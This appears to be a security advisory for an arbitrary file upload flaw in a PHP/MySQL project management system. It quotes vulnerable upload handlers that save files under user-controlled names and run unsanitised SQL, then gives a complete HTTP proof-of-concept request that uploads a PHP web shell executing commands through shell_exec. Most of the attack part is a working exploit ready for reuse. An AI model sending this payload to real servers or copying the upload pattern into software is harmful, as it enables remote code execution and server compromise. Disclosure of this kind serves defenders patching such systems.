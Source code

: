 # Remote Code Execution via Arbitrary File Upload in Project Management System

## Vendor Homepage:
> https://www.campcodes.com/projects/php/project-management-system-using-php-mysql-free-download/


## Code
``` php

if($action == 'change_pic'){
	$id = $_GET['id'];
			$rd2 = mt_rand(1000, 9999);
			$filename = basename($_FILES['file']['name']);
			$ext = substr($filename, strrpos($filename, '.') + 1);
			$file = $rd2. "_" .$filename;
			(move_uploaded_file($_FILES['file']['tmp_name'],'../images/'.$file));

	$query = mysqli_query($conn,"UPDATE employee set e_pic = '$file' where eid = '$id'");
	if($query){
		echo '<script> location.replace(document.referrer);</script>';
	}
}if($action == 'change_pic2'){
	$id = $_GET['id'];
			$rd2 = mt_rand(1000, 9999);
			$filename = basename($_FILES['file']['name']);
			$ext = substr($filename, strrpos($filename, '.') + 1);
			$file = $rd2. "_" .$filename;
			(move_uploaded_file($_FILES['file']['tmp_name'],'../images/'.$file));

	$query = mysqli_query($conn,"UPDATE projects set site_pic = '$file' where project_id = '$id'");
	if($query){
		echo '<script> location.replace(document.referrer);</script>';
	}
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /construction_pms/forms/update_forms.php?action=change_pic2&id=4 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------38905024417471001122094028099
Content-Length: 352
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/construction_pms/pages/index.php?page=project_detail&id=4&action=view%20details
Cookie: csrftoken=hn6Cf393SZVS43NE14nv2rYENzlA2dLXNthZqmVXNw6j1t0dOvrk3n8kgQeKAnBn; PHPSESSID=4jmkopecfop3ncakolevod8ugd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------38905024417471001122094028099

Content-Disposition: form-data; name="file"; filename="test1.php"
Content-Type: application/x-php

<?php echo isset($_REQUEST['x']) ? "<pre>" . shell_exec(escapeshellcmd($_REQUEST['x'])) . "</pre>" : "No input provided."; ?>

-----------------------------38905024417471001122094028099--
```

## Screenshot
![image](https://github.com/user-attachments/assets/dff708b1-405e-4516-9b6f-4c658adca694)


## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
